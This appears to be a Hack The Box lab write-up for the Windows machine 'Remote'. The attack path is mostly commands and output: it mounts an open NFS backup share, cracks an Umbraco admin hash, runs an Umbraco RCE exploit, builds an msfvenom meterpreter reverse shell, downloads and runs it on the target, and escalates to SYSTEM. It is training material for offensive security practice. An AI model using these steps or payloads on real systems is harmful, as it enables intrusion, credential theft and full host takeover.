 # Target
| Category          | Details                                              |
|-------------------|------------------------------------------------------|
| 📝 **Name**       | [Remote](https://app.hackthebox.com/machines/Remote) |  
| 🏷 **Type**       | HTB Machine                                          |
| 🖥 **OS**         | Windows                                              |
| 🎯 **Difficulty** | Easy                                                 |
| 📁 **Tags**       | NFS, SDF, Umbraco CMS, Metasploit                    |

# Scan
```
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open     rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
2049/tcp  open     nlockmgr      1-4 (RPC #100021)
5985/tcp  open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
18447/tcp filtered unknown
20137/tcp filtered unknown
20364/tcp filtered unknown
22869/tcp filtered unknown
46694/tcp filtered unknown
47001/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open     msrpc         Microsoft Windows RPC
49665/tcp open     msrpc         Microsoft Windows RPC
49666/tcp open     msrpc         Microsoft Windows RPC
49667/tcp open     msrpc         Microsoft Windows RPC
49678/tcp open     msrpc         Microsoft Windows RPC
49679/tcp open     msrpc         Microsoft Windows RPC
49680/tcp open     msrpc         Microsoft Windows RPC
54485/tcp filtered unknown
58883/tcp filtered unknown
65325/tcp filtered unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

# Attack path
1. [Gain foothold with authenticated RCE in Umbraco CMS 7.12.4](#gain-foothold-with-authenticated-rce-in-umbraco-cms-7124)
2. [Escalate to `Administrator` user using `SeImpersonatePrivilege` PE vector](#escalate-to-administrator-user-using-seimpersonateprivilege-pe-vector)

### Gain foothold with authenticated RCE in Umbraco CMS 7.12.4

#### List mounts available on NFS server
```
┌──(magicrc㉿perun)-[~/attack/HTB Remote]
└─$ showmount -e $TARGET
Export list for 10.129.217.161:
/site_backups (everyone)
```

#### Mount unsecured `/site_backups`
```
┌──(magicrc㉿perun)-[~/attack/HTB Remote]
└─$ mkdir site_backups && sudo mount -t nfs $TARGET:/site_backups site_backups
```

#### Lookup for credentials in `Umbraco.sdf` SQL Server Database File
In this case `strings` is sufficient, but dedicated Windows client would be better. 
```
┌──(magicrc㉿perun)-[~/attack/HTB Remote]
└─$ strings site_backups/App_Data/Umbraco.sdf | grep 'admin@htb.local'
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
<SNIP>
```

#### Crack `admin@htb.local` password
```
┌──(magicrc㉿perun)-[~/attack/HTB Remote]
└─$ hashcat -m 100 b8be16afba8c314ad33d812f22a04991b90e2aaa /usr/share/wordlists/rockyou.txt --quiet
b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
```

#### Use `admin@htb.local` in authenticated RCE in Umbraco CMS 7.12.4 to gain foothold
```
┌──(magicrc㉿perun)-[~/attack/HTB Remote]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1)
git clone -q https://github.com/Jonoans/Umbraco-RCE && \
python3 -m venv htb && \
source htb/bin/activate && \
cd Umbraco-RCE && \
pip3 install -qr requirements.txt && \
python3 ./exploit.py -u admin@htb.local -p baconandcheese -w http://$TARGET -i $LHOST
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.129.217.161 on port 49686
[+] Trying to bind to :: on port 4445: Done
[+] Waiting for connections on :::4445: Got connection from ::ffff:10.129.217.161 on port 49687
[*] Logging in at http://10.129.217.161/umbraco/backoffice/UmbracoApi/Authentication/PostLogin
[*] Exploiting at http://10.129.217.161/umbraco/developer/Xslt/xsltVisualize.aspx
[*] Switching to interactive mode
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
```

### Escalate to `Administrator` user using `SeImpersonatePrivilege` PE vector

#### Host reverse `meterpreter` shell 
```
┌──(magicrc㉿perun)-[~/attack/HTB Remote]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) \
    LPORT=5555 \
    -f exe \
    -o shell.exe && \
python3 -m http.server
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

#### Start `msfconsole`
```
┌──(magicrc㉿perun)-[~/attack/HTB Remote]
└─$ msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 5555; set payload windows/x64/meterpreter/reverse_tcp; run"
[*] Using configured payload generic/shell_reverse_tcp
LHOST => tun0
LPORT => 5555
payload => windows/x64/meterpreter/reverse_tcp
[*] Started reverse TCP handler on 10.10.14.161:5555
```

#### Download and run `meterpreter` reverse shell
```
PS C:\windows\system32\inetsrv> wget http://10.10.14.161:8000/shell.exe -o C:\Users\Public\Downloads\shell.exe
PS C:\windows\system32\inetsrv> C:\Users\Public\Downloads\shell.exe
```

#### `getsystem` with `meterpreter`
```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
